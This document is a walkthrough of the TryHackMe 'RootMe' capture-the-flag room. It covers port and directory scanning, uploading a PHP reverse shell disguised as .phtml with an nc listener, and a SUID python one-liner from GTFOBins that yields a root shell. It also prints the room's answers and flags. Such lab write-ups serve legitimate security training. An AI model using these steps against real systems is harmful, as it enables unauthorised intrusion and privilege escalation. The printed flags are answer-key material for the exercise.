








# RootMe

> Platform: TryHackMe
>
> Created by: ReddyyZ
>
> Difficulty: Easy

## Reconnaisance

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA RootMe_nmapscan
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:



**Question: Scan the machine, how many ports are open?**

**Answer: 2**

**Question: What version of Apache is running?**

**Answer: 2.4.29**

**Question: What service is running on port 22?"**

**Answer: ssh**

Then, to know the hidden directory of the target, we need to run the GoBuster tool.
```bash
$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
```



**Question: What is the hidden directory?**

**Answer: /panel/**

## Exploitation

Then, after going to the **"/panel"** page, the page allows us to upload a file to the page.

The question ask us to **"Find a form to upload and get a reverse shell, and find the flag."**

For a file to upload, I use the php reverse shell that are included in the Kali Linux which can be found at **"/usr/share/webshells/php/php-reverse-shell.php"**.

So, we just need to copy this file to our folder so that we didnt change the template. Then we need to change the **"IP"** and the **"PORT"** as **our IP and PORT**.
```bash
$ pwd
~/upload

$ cp /usr/share/webshells/php/php-reverse-shell.php php-reverse-shell.php

$ nano php-reverse-shell.php
```


First, I've tried with uploading the file in a **.php format**, but it seems like the page **doesn't allow us to upload a .php file**.



Then, I've tried to change the extension of the file to be in **.phtml format** which also allows us to run PHP scripts.



Nice, now before we can view the uploaded file, make sure to run the command in your host machine (make sure to change the PORT as what you have set in the uploaded file before):
```bash
$ nc -lvnp <PORT>
```

So now, we can try to view the uploaded file by clicking the button below that says **"Veja!"** and gain the shell!



To find the flag, first of all we need to know which user are we connecting as and find the path of our currect working directory.

```bash
$ whoami
www-data

$ pwd
/
```

So now, we need to find the **user.txt**. After some several times searching for it, the **user.txt is located at "/var/www/"**.
```bash
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

## 🏳️Flag: user.txt
>**THM{y0u_g0t_a_sh3ll}**

## Privilege Escalation

Moving on to **escalate our privileges to root**.

First we need to find **files with weird SUID permission**. I've tried to read some online tutorials to find the files with weird SUID permission which can be found [here](https://docs.oracle.com/cd/E19683-01/816-4883/6mb2joatb/index.html).
```bash
$ find / -user root -perm -4000 -exec ls -ldb {} \; > /tmp/ckprm

$ cat /tmp/ckprm
```

Then, after some times searching through, I found out that the file with weird SUID permission is the **"/usr/bin/python"**, which **allows anyone to run any Python script as root**.


**Question: Search for files with SUID permission, which file is weird?**

**Answer: /usr/bin/python**

Then, we need to find a way to **escalate our privileges to root** by using the Python binary.

From [GTFObins - Python](https://gtfobins.github.io/gtfobins/python/), there's a way we can escalate to root by using the using the SUID payloads:
```bash
$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

But, we must make sure that we **use the Python binary** to get it running.
```bash
$ ./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```


Now, we need to read the **"root.txt"** file to complete this machine.



## 🏳️Flag: root.txt
>**THM{pr1v1l3g3_3sc4l4t10n}**